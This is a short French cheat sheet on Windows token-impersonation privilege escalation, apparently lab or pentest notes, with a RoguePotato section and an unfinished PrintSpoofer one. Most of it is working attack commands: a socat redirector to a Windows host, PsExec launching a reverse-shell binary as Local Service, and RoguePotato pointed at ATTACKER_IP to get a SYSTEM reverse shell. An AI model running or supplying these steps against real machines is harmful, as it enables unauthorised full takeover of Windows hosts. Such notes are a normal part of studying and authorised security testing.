 # Usurpation d'identité

## Rogue Potato
Configurez un redirecteur socat sur Kali, en transférant le port Kali 135 vers le port 9999 sous Windows:
```sh
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.31.34:9999
```

(clic droit -> exécuter en tant qu'administrateur) en utilisant PSExec64.exe pour déclencher l'exécutable reverse.exe que vous avez créé avec les autorisations du " compte "service local":
```sh
PSExec64.exe -i -u "nt authority\local service" C:\temp\rshell.exe
```

Démarrez un autre écouteur sur Kali. (ncat of rshell port)
Maintenant, dans le shell inversé "service local" que vous avez déclenché, exécutez l'exploit RoguePotato pour déclencher un second shell inversé s'exécutant avec les privilèges SYSTEM

```sh
RoguePotato.exe -r @ATTACKER_IP -e "C:\temp\rshell.exe" -l 9999
```

## PrintSpoofer
(clic droit -> exécuter en tant qu'administrateur) en utilisant PSExec64.exe pour déclencher l'exécutable reverse.exe que vous avez créé avec les autorisations du " compte "service local":


